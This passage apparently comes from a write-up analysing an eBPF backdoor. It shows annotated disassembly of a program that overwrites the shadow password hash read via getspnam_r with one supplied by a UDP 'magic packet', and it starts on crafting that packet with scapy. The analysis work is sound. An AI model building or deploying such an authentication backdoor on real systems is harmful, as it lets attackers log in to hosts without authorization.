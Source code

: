 ### Analysis of prog_id 17
There doesn't seem to be much magic here. The shadow password hash from *ctx is likely to be written to map_id 3.

### Deep Dive eBPF code for prog_id 18
The output of bpftool is shortened a lot and commented for readability purposes.
```
int getspnam_r_exit(long long unsigned int * ctx):
   0: (85) call bpf_get_current_pid_tgid#119360

   4: (18) r1 = map[id:3]
   6: (85) call __htab_map_lookup_elem#128720

  17: (85) call bpf_probe_read_user#-60320              # likely reading to acquite dst pointer to target process
                                                        # that was acquiring a user's shadow password hash via getspnam_r

  19: (18) r1 = map[id:4][0]+0                          # map_id 4 offset 0, attribute enabled
  21: (71) r1 = *(u8 *)(r1 +0)
  22: (15) if r1 == 0x0 goto pc+11                      # exit if backdoor is not enabled

  25: (18) r6 = map[id:4][0]+0
  27: (18) r2 = map[id:4][0]+0
  29: (07) r2 += 1                                      # src = map_id 4 offset 1, attribute hash
  30: (b7) r3 = 35                                      # len 35
  31: (85) call bpf_probe_write_user#-59968             # write hash from map_id 4 to target process
                                                        # likely resulting in overwriting the shadow password hash
                                                        # read by target process from shadow file with hash from magic packet

  36: (18) r1 = map[id:3]
  38: (85) call htab_map_delete_elem#134016             # clean up

  39: (b7) r0 = 0
  40: (95) exit
```

### Analysis of prog_id 18
Not much code to stare at here, either. But this eBPF code likely overwrites the shadow password hash, that the target process acquired for a user (like sshd, for login purposes), with the hash value that was transferred via the magic packet.

## Crafting the Magic Packet
Now that the *magic* has been identified, it's time to craft a packet that will trigger the eBPF code. In the first tests, I was sending the crafted packet from host to qemu guest system, expecting the forward rule for udp dst port 1337 to work. For some reason, it didn't.
For local testing purposes, scapy may as well be installed to the guest system via:
```
apt install python3-scapy
```
